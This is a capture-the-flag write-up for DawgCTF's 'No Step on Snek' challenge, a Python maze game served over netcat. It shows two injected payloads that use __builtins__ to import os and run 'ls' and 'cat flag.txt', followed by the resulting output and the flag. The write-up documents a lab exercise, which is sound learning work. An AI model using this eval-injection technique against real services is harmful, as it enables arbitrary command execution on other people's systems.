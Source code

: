## No Step on Snek (75 Points)

### Problem
```
I heard you guys like python pwnables
nc umbccd.io 4000
```

### Solution
Being faced with a maze with some basic WASD move commands, you were asked to navigate through the maze to the end. I assumed from the beginning the input was exploitable.
From previous CTFs, I immediately chanced my arm using builtins to try list the files in the current directory:

```python
__builtins__.__dict__['__import__']("os").system("ls")
```

Sure enough this returned the results before erroring out with a `NameError`

```
flag.txt  nosteponsnek.py
Traceback (most recent call last):
  File "/home/challuser/nosteponsnek.py", line 73, in <module>
    __main__()
  File "/home/challuser/nosteponsnek.py", line 69, in __main__
    still_playing = make_move(maze)
  File "/home/challuser/nosteponsnek.py", line 29, in make_move
    raise NameError
NameError
```

Great! That was quite easy. Let's just cat the file and see if that's all we need?

```python
__builtins__.__dict__['__import__']("os").system("cat flag.txt")
```

```
DawgCTF{bUt_iT'5_c@ll3d_1nput}
Traceback (most recent call last):
  File "/home/challuser/nosteponsnek.py", line 73, in <module>
    __main__()
  File "/home/challuser/nosteponsnek.py", line 69, in __main__
    still_playing = make_move(maze)
  File "/home/challuser/nosteponsnek.py", line 29, in make_move
    raise NameError
NameError
```

Nice!

Flag: `DawgCTF{bUt_iT'5_c@ll3d_1nput}`

